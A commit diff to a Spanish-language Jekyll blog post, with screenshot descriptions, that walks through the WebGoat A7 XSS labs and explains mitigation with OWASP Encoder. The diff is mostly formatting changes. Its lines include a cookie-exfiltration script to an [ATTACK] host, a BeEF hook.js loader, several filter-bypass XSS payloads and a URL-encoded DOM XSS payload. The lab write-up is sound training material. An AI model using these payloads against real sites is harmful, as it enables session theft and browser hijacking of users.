

Before and after one commit to CSL-LABS/CSL-LABS.github.io, a Jekyll site: the page built from _posts/2021-02-13-webgoat-a7-xss.md, in a window 1280 px wide and 1400 px high, scrolled down 5436 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Webgoat-A7-XSS completed

````diff
--- a/_posts/2021-02-13-webgoat-a7-xss.md
+++ b/_posts/2021-02-13-webgoat-a7-xss.md
@@ -29,7 +29,7 @@
 Quizás el truco más simple y común sea el robo de sesiones. Tengamos presente que si las cookies del aplicativo web no tienen el atributo **HTTPOnly** habilitado, vamos a poder accederlas por medio de **document.cookie** y la forma de envio a un tercer servidor, puede ser tan simple como incluirlo en una petición get de una imagen, como el siguiente ejemplo:
 
 Se inyecta el siguiente payload.
-```JavaScript
+```javascript
 <script>new Image().src="http://[ATTACK]/bogus.php?session="+document.cookie;</script>
 ```
 El navegador, al interpretar el código **JS**, intenta realizar una conexión a este origen de imagen concatenandole la **COOKIE** de la victima:
@@ -65,13 +65,13 @@
 
 Para enlazar el funcionamiento del **BeEF** a nuestro **XSS**, debemos inyectar un payload que haga uso del ``hook.js`` especialmente diseñado por el framework, el cual realiza una conexión recurrente al servidor central en busca de acciones a ejecutar, o la forma de enviar algún resultado previo.
 
-```JavaScript
+```javascript
 <script src="http://[attack]/hook.js">
 ```
 
-También es posible subir completamente el servicio de BeEF y hacer uso de su laboratorio demo, el cual ya incluye el ``hook.js``.
+También es posible subir completamente el servicio de **BeEF** y hacer uso de su laboratorio demo, el cual ya incluye el ``hook.js``.
 
-- http://[ATTACK]:3000/demos/butcher/index.html
+- ``http://[ATTACK]:3000/demos/butcher/index.html``
 
 Se tiene un dashboard donde se listan todos las victimas conectadas a nuestro sitio malicioso o que hicieron click en el enlace que explota el **XSS**.
 
@@ -105,7 +105,7 @@
 ![Alert XSS](/assets/webgoat/A7/09_xss_alert.png)
 _Alert XSS_
 
-Es un escenario básico de explotación de XSS, así que verificaquemos a nivel de código cómo se produce esta vulnerabilidad y cómo se puede mitigar.
+Es un escenario básico de explotación de **XSS**, así que verificaquemos a nivel de código cómo se produce esta vulnerabilidad y cómo se puede mitigar.
 
 #### Mitigación
 El archivo donde se encuentra la vulnerabilidad es:
@@ -117,7 +117,7 @@
 ![Código Vulnerable](/assets/webgoat/A7/10_codigo_field1.png)
 _Código Vulnerable_
 
-Es por esto que al incluir payloads con etiquetas html y código JS, el navegador lo interpretaba como si hiciera parte valida del aplicativo.
+Es por esto que al incluir payloads con etiquetas **html** y código **JS**, el navegador lo interpretaba como si hiciera parte valida del aplicativo.
 
 La mitigación de esta vulnerabilidad consiste en realizar un proceso previo de filtrado y saneamiento del parámetro ``field1`` antes de incluir lo en la respuesta. Esto se puede realizar usando la librería ``org.owasp.encoder.Encode.forHtml()`` para **Java**, lo que permite cambiar la códificación de salida en [HTML Entitys](https://www.w3schools.com/html/html_entities.asp):
 
@@ -129,7 +129,7 @@
 - **¿Y si elimino todos los ``<script>``?**
 Esta es la forma más "común" e insegura de mitigar vulnerabilidades que se dan por mal saneamiento de datos, ya que se intenta atacar directamente el payload y no el significado. Pongamos un ejemplo:
 
-> El desarrollador deduce que la vulnerabilidad real esta en permitir la etiqueta ``<script>`` ya que por medio de esta es que se ejecuta el código JS. Basado en esto, considera que la forma más eficiente de mitigar es realizando un replace sobre dicha expresión.
+> El desarrollador deduce que la vulnerabilidad real esta en permitir la etiqueta ``<script>`` ya que por medio de esta es que se ejecuta el código **JS**. Basado en esto, considera que la forma más eficiente de mitigar es realizando un replace sobre dicha expresión.
 
 En general esta situación es muy común y aunque parece una posible solución, su debilidad se fundamenta en el uso de una ``Lista Negra`` de expresiones, extensiones o etiquetas que considera no se deben permitir, sin embargo, el uso de ```Listas Negras`` nos obliga a considerar todos los escenarios y posibles formas del contenido dañino.
 
@@ -146,16 +146,16 @@
 - ``<embed src="javascript:alert(1)">``
 - Etc.. [Aquí podemos consultar muchos más payloads](https://github.com/payloadbox/xss-payload-list)
 
-Otro caso sería si se realiza una ``Lista Blanca``, en la que con una expresión regular se valida que únicamente se acepten caracteres pertencientes al abecedario; pero eso queda de tarea :).
+Otro caso sería si se realiza una ``Lista Blanca``, en la que con una expresión regular se valida que únicamente se acepten caracteres pertencientes al abecedario; **pero eso queda de tarea :)**.
 
 ### XSS - 10 - 11
-Este es otro laboratorio básico en el que se debe explotar un XSS - DOM, el cual como nos indica la descripción del ejercicio, se encuentra en una funcionalidad routes a nivel del código JavaScript del aplciativo, por lo que procedemos a su busqueda.
+Este es otro laboratorio básico en el que se debe explotar un **XSS - DOM**, el cual como nos indica la descripción del ejercicio, se encuentra en una funcionalidad routes a nivel del código JavaScript del aplciativo, por lo que procedemos a su busqueda.
 
 - Vamos a al **depurador** de la herramienta de desarrollo de nuestro navegador.
-- Tecleamos ``Ctrl + Shift + F`` lo cual nos permite buscar en todos los archivos JS.
+- Tecleamos ``Ctrl + Shift + F`` lo cual nos permite buscar en todos los archivos **JS**.
 - Buscamos por el termino **route**.
 
-Identificamos el archivo donde se encuentran las routes que se manejan desde JS:
+Identificamos el archivo donde se encuentran las routes que se manejan desde **JS**:
 - ``/WebGoat/js/goatApp/view/GoatRouter.js``
 
 ![Identificación de las Routes](/assets/webgoat/A7/13_dom_routes.png)
@@ -167,7 +167,7 @@
 ![Función showTestParam](/assets/webgoat/A7/14_dom_showTestParam.png)
 _Función showTestParam_
 
-Una vez en este punto, se identifica que el ``:param`` es concatenado en una vista junto con ``"test:" + param``, lo que nos indica que la forma de inyectar nuestro payload para explotar el XSS, es accediendo a la siguiente URL:
+Una vez en este punto, se identifica que el ``:param`` es concatenado en una vista junto con ``"test:" + param``, lo que nos indica que la forma de inyectar nuestro payload para explotar el **XSS**, es accediendo a la siguiente **URL**:
 
 - /WebGoat/start.mvc#test/**devsec**
     - Donde ``#test/`` es la route a la que llamamos.
@@ -186,7 +186,7 @@
 
 - Payload: ``<script>webgoat.customjs.phoneHome()</script>``
 - Payload Encoded URL: ``%3Cscript%3Ewebgoat%2Ecustomjs%2EphoneHome%28%29%3C%2Fscript%3E``
-- URL: /WebGoat/start.mvc#test/%3Cscript%3Ewebgoat%2Ecustomjs%2EphoneHome%28%29%3C%2Fscript%3E
+- URL: /WebGoat/start.mvc#test/``%3Cscript%3Ewebgoat%2Ecustomjs%2EphoneHome%28%29%3C%2Fscript%3E``
 
 Hacemos la busqueda del número en nuestra consola del navegador, aunque también se puede visualizar por medio de un ``alert()``.
 
````
Also changed, not shown: other parts of _posts/2021-02-13-webgoat-a7-xss.md (+2 -2 lines).
